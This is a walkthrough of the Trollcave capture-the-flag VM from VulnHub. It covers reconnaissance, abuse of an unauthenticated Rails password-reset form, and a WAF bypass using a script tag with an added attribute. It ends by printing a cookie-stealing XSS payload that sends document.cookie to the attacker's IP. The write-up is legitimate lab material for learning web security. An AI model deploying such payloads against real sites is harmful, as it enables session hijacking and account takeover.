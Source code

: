 # TrollCave

Trollcave is a VM available from [VulnHub](https://www.vulnhub.com/entry/trollcave-12,230/) - a  "vulnerable VM, in the tradition of Vulnhub and infosec wargames in general. You start with a virtual machine which you know nothing about – no usernames, no passwords, just what you can see on the network."

As with many traditional wargaming VMs, your objective is simple: gain access to the root account and retrieve a flag to prove you did it. Although it didn't offer a great many surprises, I found it pretty enjoyable. What follows is a write-up of my experience of trying to exploit this VM. It's not exhaustive documentation - from my understanding, there are more than a couple ways to go about exploiting this VM.

## Getting Started

After importing and setting up the VM on a host-only network and confirming that it had obtained an IP address properly, I was ready to begin poking at it. Knowing nothing about the system or what I was in for, I started with a simple netdiscover to find it on the local network, followed by a quick NMap scan to see which ports are open.

The results were pretty simple: two services accessible to the outside world on ports 22 and 80. After examining the OpenSSH running on port 22 and concluding that I wouldn't find an easy way in there, I proceeded to the webserver. It's a fairly simple community blogging platform running Rails, complete with the kind of humour we've come to expect from CTF challenges ("God himself cannot hack this website. - dragon, site admin"). There's a lot going on here, but very little is accessible without an account - which is problematic, since registration seems to be closed. The first step, then, is to get our hands on one.

## Escalating from Guest User

This challenge relies heavily on its hints, especially in the web app exploitation phase. Pretty much every stage includes some kind of hint in the form of a blog post. Some of them were red herrings (unless I missed something), but I'll cover that later. The interesting tidbit that leads you to your first win is a blog post about password resets by "coderguy", the site developer. He doesn't tell you exactly where to look for the password reset functionality - and there's no links to it anywhere. What he does say, however, is that there is a `password_resets` resource in use.

A little bit of intuition or an understanding of the way Ruby on Rails resources are set up is required here. The resource he's referring to is at `/password_resets/new`. Here we'll find a lovely unauthenticated form that lets us reset the password of any regular user - moderators and admins are out of our grasp, but this was enough for me to reset the password of 'xer', one of the regular members on the site.

## Escalating from Regular Member

While I was doing this challenge, I was very focussed on a particular comment made by King, the site superadmin:

`I promise to read every blog restricted to my access level, no matter how creepy. `

See, every user has the ability to create blogs, and every blog has an access level. Regular users only have access levels 0 and 1; which are "everyone can see it" and "only members can see it", respectively. King has an access level of 5, but a regular user can't create a blog at that level - not even by fiddling with the POST parameters, as I found out. In the end, making a level 5 blog and performing a client-side attack wasn't the answer, but it kept me going for a good while.

Either way, the next step for me was to get one of those fancy moderator accounts. Besides King, one other user had dropped a hint about monitoring the website - "cooldude89", a Moderator user. He had created a thread about politics and religion, and promised to constantly watch it to make sure no trolls derail the debate. Taking this as an invitation for a client side attack, I set about searching for XSS.

Although there is a rudimentary WAF in place, circumventing it didn't take much. The `<script>` tag is filtered out of any post or comment, but all you need to do is include an attribute (i.e. `<script id=test>`) and it will go through. After some tinkering, I deduced that the session cookie is not protected in any way, and that stealing it will let you hijack a user's session - even if they click the logout button. To that end, I crafted the following XSS injection:

`<SCRIPT id=test>document.write('<img src="http://192.168.56.1/collect.gif?cookie=' + document.cookie + '" />')</SCRIPT>`
